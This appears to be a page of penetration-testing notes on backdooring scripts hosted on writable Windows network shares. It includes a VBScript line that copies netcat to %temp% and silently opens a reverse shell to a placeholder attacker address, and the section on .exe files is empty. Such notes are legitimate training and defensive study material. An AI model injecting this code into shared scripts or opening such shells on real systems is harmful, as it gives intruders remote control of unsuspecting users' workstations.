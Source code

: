 # Abusing writable shares

## Resources

1. `CreateObject` function

{% embed url="https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function" %}

2. `Run` method

{% embed url="https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp" %}

{% embed url="https://ss64.com/vb/run.html" %}

3. `copy`&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/copy" %}

## Backdoor mechanism

It is quite common to find network shares that hosts executable or scripts created by the administrator, that users can use to perform daily tasks. This is useful  for users since they can execute the shared resource without copying or installing it.&#x20;

Whenever a user opens the shortcut on their workstation, the executable or script will be copied from the server to the local `%temp%` folder, where it will be executed. Thus, any payload will run in the context of the final user's workstation and logged-in user account.

If the share is writable by anyone (or at least our compromised account), we can abuse this to create a backdoor.

### (1) Backdoor via `.vbs` scripts

Given that we have found a VBS (`.vbs` ) script running hosted on the share, we can inject a malicious code into script to provide ourselves with a backdoor.

First, we have to upload a binary (such as `nc64.exe` ) that will aid us in creating the backdoor. This can be achieved using [smbclient](https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient).

Next, we can inject the malicious in the existing script. Assuming that the writable share is at `\\TARGET_IP\writable_share` .

{% code overflow="wrap" %}
```visual-basic
CreateObject("WScript.Shell").Run "cmd.exe /c copy /y \\TARGET_IP\writable_share\nc64.exe %temp% & %temp%\nc64.exe -e cnd.exe ATTACKER_IP PORT", 0, True
```
{% endcode %}

Essentially, this command executes a command using  `cmd.exe` which calls the `copy` command to copy the uploaded `nc64.exe` binary (uploaded to share) to the `%temp%` directory, before executing a reverse shell that provides us a backdoor to the system.

* the `/y` flag provided to `copy` means

> Suppresses prompting to confirm that you want to overwrite an existing destination file.

According to this [page](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp), the following describes the last 2 values provided to the `Run` method:

* `intWindowStyle`

> Optional. Integer value indicating the appearance of the program's window. Note that not all programs make use of this information.

value of `0` : "Hides the window and activates another window."

* `bWaitOnReturn`

> Optional. Boolean value indicating whether the script should wait for the program to finish executing before continuing to the next statement in your script.&#x20;

If set to `True` , script execution halts until the program finishes.



Now, whenever someone executes this script, we will gain a remote shell on that user's desktop.

### (2) Backdoor via `.exe` files





